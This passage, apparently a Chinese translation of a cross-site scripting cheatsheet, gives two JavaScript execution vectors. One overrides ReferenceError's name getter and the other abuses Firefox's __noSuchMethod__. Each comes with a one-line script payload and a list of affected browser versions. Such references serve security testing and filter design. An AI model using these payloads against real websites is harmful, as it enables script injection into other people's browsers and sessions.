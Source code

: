 *   xss

*   javascript
*   firefox
*   sharp
*   proprietary

*   [`developer.mozilla.org/en/Sharp_variables_in_JavaScript`](https://developer.mozilla.org/en/Sharp_variables_in_JavaScript)

reporter：.mario

### 通过覆盖 ReferenceError 对象执行 Javascript#20test

这个 Javascript 向量展示了如何覆盖 ReferenceError 对象,并引起错误,从而导致 Javascript 执行.

```
<script>ReferenceError.prototype.__defineGetter__('name', function(){alert(1)}),x</script> 
```

在用户可以注入脚本的情况下不要相信 DOM,即便是 DOM 属性的访问.

*   opera 8.x
*   opera 11.01

*   firefox 1.x

*   firefox 15.0

*   chrome 3.0

*   chrome 9.0

*   safari 4.0

*   safari 5.1.7

*   javascript

*   opera
*   firefox
*   chrome
*   safari
*   ReferenceError
*   overwrite

*   [`developer.mozilla.org/en/Core_JavaScript_1.5_Reference/Global_Functions/ReferenceError`](https://developer.mozilla.org/en/Core_JavaScript_1.5_Reference/Global_Functions/ReferenceError)

reporter：.mario

### 通过私有属性 **noSuchMethod**执行 Javascript#21test

Firefox 支持非标准的属性 **noSuchMethod** ,它可以使我们在访问一个对象不存在的方法时自动拦截.我们可以利用它执行 Javascript 而不需要使用 funtion(){...}这样的方法.

```
<script>Object.__noSuchMethod__ = Function,[{}][0].constructor._('alert(1)')()</script> 
```
